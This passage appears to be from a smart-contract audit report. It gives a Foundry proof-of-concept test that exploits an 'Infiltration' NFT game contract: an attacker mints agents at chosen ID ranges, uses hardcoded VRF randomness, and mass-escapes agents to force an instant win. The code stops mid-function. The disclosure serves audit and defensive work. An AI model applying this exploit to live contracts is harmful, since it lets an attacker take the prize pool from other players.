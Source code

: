 See following POC:

## POC

Put this into Infiltration.mint.t.sol and run `forge test --match-test forceWin -vvv`

```solidity
function test_forceWin() public {
        address attacker = address(1337);

        //prefund attacker and user1
        vm.deal(user1, PRICE * MAX_MINT_PER_ADDRESS);
        vm.deal(attacker, PRICE * MAX_MINT_PER_ADDRESS);

        // MINT some agents
        vm.warp(_mintStart());
        // attacker wants to make sure he owns a bunch of agents with low IDs!!
        vm.prank(attacker);
        infiltration.mint{value: PRICE * 30}({quantity: 30});
        // For simplicity we mint only 1 agent to user 1 here, but it could be more, they could get wounded, etc.
        vm.prank(user1);
        infiltration.mint{value: PRICE *1}({quantity: 1});
        //Attacker also wants a bunch of agents with the highest IDs, as they are getting swapped with the killed agents (move forward)
        vm.prank(attacker);
        infiltration.mint{value: PRICE * 30}({quantity: 30});
    
        vm.warp(_mintEnd());

        //start the game
        vm.prank(owner);
        infiltration.startGame();

        vm.prank(VRF_COORDINATOR);
        uint256[] memory randomWords = new uint256[](1);
        randomWords[0] = 69_420;
        VRFConsumerBaseV2(address(infiltration)).rawFulfillRandomWords(_computeVrfRequestId(1), randomWords);
        // Now we are in round 2 we do have 1 wounded agent (but we can imagine any of our agent got wounded, doesn´t really matter)
        
        // we know with our HARDCODED RANDOMNESS THAT AGENT 3 gets wounded!!

        // Whenever we get in a situation, that we own all active agents, but 1 and our agent has a lower index we can instant win the game!!
        // This is done by escaping all agents, at once, except the lowest index
        uint256[] memory escapeIds = new uint256[](59);
        escapeIds[0] = 1;
        escapeIds[1] = 2;
        uint256 i = 4; //Scipping our wounded AGENT 3
        for(; i < 31;) {
            escapeIds[i-2] = i;
            unchecked {++i;}
        }
        //skipping 31 as this owned by user1
        unchecked {++i;}
        for(; i < 62;) {
            escapeIds[i-3] = i;
            unchecked {++i;}
        }
        vm.prank(attacker);
        infiltration.escape(escapeIds);

```